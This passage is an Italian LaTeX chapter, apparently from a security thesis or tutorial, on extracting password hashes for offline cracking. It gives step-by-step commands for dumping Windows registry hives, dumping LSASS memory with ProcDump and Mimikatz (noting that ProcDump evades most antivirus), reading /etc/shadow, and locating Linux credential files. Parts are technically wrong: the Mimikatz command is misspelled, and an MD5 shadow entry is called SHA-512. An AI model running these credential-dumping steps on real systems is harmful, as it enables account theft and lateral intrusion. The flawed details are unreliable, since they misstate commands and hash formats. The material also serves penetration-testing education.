\chapter{Extract Hashes}
Una parte fondamentale dei attacchi Brute-Force è il fatto di recuperare gli hash, in modo da poterli attaccare offline, andando a ridurre così i tempi e le tracce che si possono lasciare.
Questi hash possono trovarsi in vari sistemi, diversi tra loro e ognuno si differenzia per il modo e per i strumenti con cui si possono recuperare.
\section{Windows}
In Windows gli hash inerenti alle password degli account, sono archiviati in un file di database nel controller di dominio (NTDS.DIT) con alcune informazioni aggiuntive come le appartenenze ai gruppi e gli utenti.

Il file NTDS.DIT è costantemente utilizzato dal sistema operativo e quindi non può essere copiato direttamente in un'altra posizione per l'estrazione delle informazioni.
\begin{lstlisting}[ caption={NTDS.DIT Directory}, style=javaScriptCode]
    C:\Windows\NTDS\NTDS.dit
\end{lstlisting}

Esistono varie tecniche che possono essere utilizzate per estrarre questo file o le informazioni memorizzate al suo interno.

\subsection{CREDDUMP}

Questo strumento\cite{CREDDUMP} permette di estrarre ogni possibile cache delle credenziali dei domini.

Prima di tutto dobbiamo creare una copia dei registri di Windows:

\begin{lstlisting}[ caption={copy reg.}, style=javaScriptCode]
    C:\WIND0WS\system32>reg.exe save HKLM\SAM sam_backup.hiv
    C:\WIND0WS\system32>reg.exe save HKLM\SECURITY sec_backup.hiv
    C:\WIND0WS\system32>reg.exe save HKLM\system sys_backup.hiv
    \end{lstlisting}


Successivamente possiamo utilizzare tre tipi di attacchi :
\begin{itemize}
    \item cachedump -> scarica le credenziali memorizzate nella cache
          \begin{lstlisting}[ caption={cachedump example}, style=javaScriptCode]
        root@kali:~# cachedump
                     usage: /usr/bin/cachedump <system hive> <security hive>
                     cachedump sys_backup.hiv sec_backup.hiv
    \end{lstlisting}
    \item lsadump -> scarica le credenziali LSA
          \begin{lstlisting}[ caption={lsadump example}, style=javaScriptCode]
        root@kali:~# lsadump
                     usage: /usr/bin/lsadump <system hive> <security hive>
                     lsadump sys_backup.hiv sec_backup.hiv
    \end{lstlisting}
    \item pwdump -> scarica gli hash della password
          \begin{lstlisting}[ caption={pwdump example}, style=javaScriptCode]
        root@kali:~# pwdump 
                     usage: /usr/bin/pwdump <system hive> <security hive>
                     pwdump sys_backup.hiv sec_backup.hiv 
    \end{lstlisting}
\end{itemize}

\subsection{MIMIKATZ}

Mimikatz\cite{MIMIKATZ}, creato da gentilkiwi , può essere utilizzato per estrarre hash di password e codici PIN dalla memoria di Windows.

Oggi, Windows Defender e i software di antivirus sono diventati sempre più efficaci nel rilevare le esecuzioni e le firme di Mimikatz.


\begin{figure}[h!]
    \centering
    
\includegraphics[width=120mm]{Immagini/2/mimikatz.jpg}
    \caption{MIMIKATZ e antivirus}
    \label{fig:MIMIKATZ}
\end{figure}

In combinazione con Mimikatz ora si utilizza ProcDump\cite{ProcDump}, un eseguibile autonomo progettato per gli amministratori per monitorare i crash dump delle applicazioni. ProcDump viene utilizzato per estrarre il dump LSASS \footnote[1]{\textbf{LSASS} : Local Security Authority Subsystem Service ( LSASS ) è un processo nei sistemi operativi Microsoft Windows che è responsabile dell'applicazione della politica di sicurezza sul sistema. Verifica gli utenti che accedono a un computer o server Windows, gestisce le modifiche alla password e crea token di accesso . Scrive anche nel registro di sicurezza di Windows .} , che viene successivamente spostato su un computer Windows offline e analizzato con Mimikatz . Questa è ancora una tecnica efficace per estrarre le credenziali da Windows, poiché ProcDump è un binario Microsoft firmato e non viene segnalato dalla maggior parte dei software antivirus.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=120mm]{Immagini/2/procdump.jpg}
    \caption{ProcDump e antivirus}
    \label{fig:ProcDump}
\end{figure}

\newpage

Per eseguire il Dump, basta digitare il seguente comando (una volta scaricato procDump) nel prompt dei comandi :

\begin{lstlisting}[ caption={ProcDump copia lsass}, style=javaScriptCode]
    C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
\end{lstlisting}

Una volta svolto il Dump con procDump, possiamo passare a Mimikatz. 
Apriamo mimikatz con i permessi di amministratore.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=100mm]{Immagini/2/mimikatz_1.PNG}
    \caption{Mimikatz primo avvio}
    \label{fig:ProcDump}
\end{figure}

Ora abilitiamo il log e andiamo a spostare lo spazio di lavoro di mimikatz sul file generato da procDump 

\begin{figure}[h!]
    \centering
    
\includegraphics[width=100mm]{Immagini/2/mimikatz_2.PNG}
    \caption{Mimikatz setup}
    \label{fig:ProcDump}
\end{figure}

\begin{lstlisting}[ caption={Mimikatz command setup}, style=javaScriptCode]
    log
    sekerlsa::minidump lsass.dmp
\end{lstlisting}

Ora siamo pronti per recuperare tutte le password memorizzate internamente al sistema, eseguendo il seguente comando :

\begin{lstlisting}[ caption={Mimikatz Logon Passwords}, style=javaScriptCode]
    sekerlsa::logonpasswords
\end{lstlisting}

\begin{figure}[h!]
    \centering
    
\includegraphics[width=100mm]{Immagini/2/mimikatz_3.PNG}
    \caption{Mimikatz setup}
    \label{fig:ProcDump}
\end{figure}

Una volta recuperati gli hash delle password siamo pronti per eseguire un Brute-Force attraverso per esempio lo strumento hashcat o john the ripper.


\section{Linux}

Un attaccante su un sistema Linux\cite{hash_Linux}, per prima cosa se ha i permessi di root, andrà vedere all'interno della cartella \textbf{ETC/SHADOW}

\begin{figure}[h!]
    \centering
    
\includegraphics[width=100mm]{Immagini/2/linux_1.png}
    \caption{ETC/SHADOW}
    \label{fig:ProcDump}
\end{figure}

\begin{lstlisting}[ caption={ETC/SHADOW}, style=javaScriptCode]
    root@kali:~# cat etc/shadow
\end{lstlisting}

Eseguendo questo comando sarà possibile ottenere informazioni sulle password degli utenti del sistema.

Ogni riga di questo file contiene nove campi suddivisi in 

\begin{lstlisting}[ caption={ETC/SHADOW composizione}, style=javaScriptCode]
mark:$6$.n.:17736:0:99999:7:::
[--] [----] [---] - [---] ----
|      |      |   |   |   |||+-----------> 9. Inutilizzato
|      |      |   |   |   ||+------------> 8. Data di scadenza
|      |      |   |   |   |+-------------> 7. Periodo di inattivita'
|      |      |   |   |   +--------------> 6. Periodo per la scadenza
|      |      |   |   +------------------> 5. Eta massima della password
|      |      |   +----------------------> 4. Eta' minima della password
|      |      +--------------------------> 3. Ultima modifica della password
|      +---------------------------------> 2. Password crittografata ($1$ -MD5, ecc ecc)
+----------------------------------------> 1. Username
\end{lstlisting}

Vediamo un esempio :

\begin{lstlisting}[ caption={ETC/SHADOW example}, style=javaScriptCode]
    mario:$1$bgfrJMa5U384smbQ$z6nch...:18009:0:120:7:14::
\end{lstlisting}

La linea sopra contiene le informazioni dell'utente "Mario"

\begin{itemize}
    \item La password è crittografata con SHA-512 (la password viene troncata per una migliore leggibilità).
    \item La password è stata modificata l'ultima volta il 23 aprile 2019 - 18009.
    \item Non esiste un'età minima per la password.
    \item La password deve essere cambiata almeno ogni 120 giorni.
    \item L'utente riceverà un messaggio di avviso sette giorni prima della data di scadenza della password.
    \item Se l'utente non tenta di accedere al sistema 14 giorni dopo la scadenza della password, l'account verrà disabilitato.
    \item Non esiste una data di scadenza dell'account.
\end{itemize}

Su Linux, inoltre è possibile recuperare le informazioni inerenti le password anche in altre directory come :

\begin{itemize}
    \item /home/*/./bash\_history
    \item /home/*/.mysql\_history
    \item /etc/cups/printers.conf
    \item /home/*/.ssh/
    \item /tmp/krb5cc\_*
    \item /home/*/.gnupg/secring.gpgs
\end{itemize}